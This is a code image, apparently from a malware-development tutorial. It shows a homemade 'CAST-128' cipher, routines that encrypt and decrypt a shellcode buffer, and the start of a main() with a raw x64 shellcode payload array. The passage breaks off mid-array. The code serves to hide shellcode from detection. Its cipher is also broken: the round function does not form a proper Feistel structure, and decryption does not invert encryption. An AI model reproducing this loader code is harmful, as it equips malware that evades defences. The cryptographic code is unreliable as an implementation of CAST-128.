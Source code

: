 ```cpp
    uint32_t temp = right;
    switch (i % 3) {
      case 0:
        f1(&right, subkeys[i][0]);
        break;
      case 1:
        f2(&right, subkeys[i][1]);
        break;
      case 2:
        f3(&right, subkeys[i][2]);
        break;
    }
    right ^= left;
    left = temp;
  }

  block[0] = right;
  block[1] = left;
}

// CAST-128 decryption
void cast_decrypt(uint32_t* block, uint32_t subkeys[ROUNDS][4]) {
  uint32_t left = block[0];
  uint32_t right = block[1];

  for (int i = ROUNDS - 1; i >= 0; i--) {
    uint32_t temp = right;
    switch (i % 3) {
      case 0:
        f1(&right, subkeys[i][0]);
        break;
      case 1:
        f2(&right, subkeys[i][1]);
        break;
      case 2:
        f3(&right, subkeys[i][2]);
        break;
    }
    right ^= left;
    left = temp;
  }

  block[0] = right;
  block[1] = left;
}

void cast_encrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint32_t subkeys[ROUNDS][4]) {
  for (int i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    cast_encrypt((uint32_t*)(shellcode + i * BLOCK_SIZE), subkeys);
  }
}

void cast_decrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint32_t subkeys[ROUNDS][4]) {
  for (int i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    cast_decrypt((uint32_t*)(shellcode + i * BLOCK_SIZE), subkeys);
  }
}

int main() {
  unsigned char my_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
```